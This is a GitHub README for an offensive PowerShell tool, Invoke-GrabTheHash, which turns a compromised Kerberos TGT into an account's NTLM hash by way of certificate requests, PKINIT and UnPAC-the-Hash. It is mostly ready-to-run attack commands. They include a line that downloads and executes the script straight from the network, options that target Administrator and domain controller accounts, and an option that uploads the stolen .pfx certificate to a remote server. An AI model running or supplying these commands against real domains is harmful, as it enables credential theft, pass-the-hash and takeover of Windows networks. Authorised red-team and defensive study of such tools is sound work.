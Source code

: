 # Invoke-GrabTheHash
Requests a certificate from a Windows Certificate Authority (CA) for the User or Machine Account TGT held in your current session, uses PKINIT to obtain a TGT for the same Account, then performs the UnPAC-the-Hash technique to extract the Account's NTLM hash.

This approach can be valuable in situations where an account's TGT has been compromised. Gaining access to the account hash allows for further actions such as cracking it to retrieve the account plain-text password, pass-the-hash attacks, or acquiring a new TGT if the existing one has expired.

### Run as follows
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-GrabTheHash/main/Invoke-GrabTheHash.ps1')
```
```
Invoke-GrabTheHash
```

### Specify a target Domain
```
Invoke-GrabTheHash -Domain ferrari.local
```

### Enumerate for Certificate Templates
```
Invoke-GrabTheHash -CertTemplates
```

### Specify a Certificate Template to use
By default, the "User" or "Machine" template is used to request a certificate
```
Invoke-GrabTheHash -TemplateName User
```

### Specify the CA Name
```
Invoke-GrabTheHash -CAName "CA01.ferrari.local\ferrari-CA01-CA"
```

### Specify the Account Client Name
This must correspond to the TGT Client Name in your current session
```
Invoke-GrabTheHash -CN Administrator
```

### Work with a Machine Account
Make sure you run on an elevated context or it will fail
```
Invoke-GrabTheHash -Machine
```
```
Invoke-GrabTheHash -Machine -TemplateName DomainController
```

### Upload the .pfx file to a server
```
Invoke-GrabTheHash -Upload http://10.0.2.130/Documents/
```

### Stop before grabbing the Hash
```
Invoke-GrabTheHash -Break
```

### Provide a .pfx file
You can also reuse a previously obtained .pfx to get the user hash

Make sure you provide the full path to the .pfx file, as well as the CN and Domain information
```
Invoke-GrabTheHash -PFX C:\Users\Senna\Downloads\Administrator.pfx -Domain ferrari.local -CN Administrator
```

### Example Output
![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/da1964e6-2159-42cd-838e-b8d400617cb2)

![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/2e887daf-865a-4813-9930-f32815ee653b)

### Credits

Rubeus

https://github.com/GhostPack/Rubeus
